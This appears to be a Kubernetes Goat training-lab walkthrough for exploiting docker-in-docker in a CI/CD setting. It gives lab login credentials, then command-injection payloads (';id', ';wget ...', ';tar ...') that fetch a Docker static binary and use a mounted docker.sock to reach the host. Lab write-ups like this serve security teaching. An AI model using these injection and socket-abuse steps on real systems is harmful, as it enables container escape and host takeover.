






# DIND (docker-in-docker) exploitation

## Scenario Information

Most of the CI/CD and pipeline systems that use Docker and build containers for you within the pipeline use something called DIND (docker-in-docker). Here in this scenario, we try to exploit and gain access to the host system.

* To get started with the scenario, navigate to [http://127.0.0.1:1231](http://127.0.0.1:1231) and username is `admin` and password `kubernetesgoat`





## Scenario Solution

* By looking at application functionality, identified that it has command injection vulnerability

```bash
madhuakula.com; id
```



* After performing quite some analysis, identified the there is a `docker.sock` mount available in the file system

```bash
mount
```



* Download the `docker` static binary from internet [https://download.docker.com/linux/static/stable/](https://download.docker.com/linux/static/stable/)

```bash
;wget https://download.docker.com/linux/static/stable/x86_64/docker-19.03.9.tgz -O /tmp/docker-19.03.9.tgz
```


* Extract the binary from the `docker-19.03.9.tgz` file

```bash
;tar -xvzf /tmp/docker-19.03.9.tgz -C /tmp/
```



* Access the host system by running the following docker commands with `docker.sock`

```bash
;/tmp/docker/docker -H unix:///custom/docker/docker.sock ps
;/tmp/docker/docker -H unix:///custom/docker/docker.sock images
```



## Miscellaneous

TBD
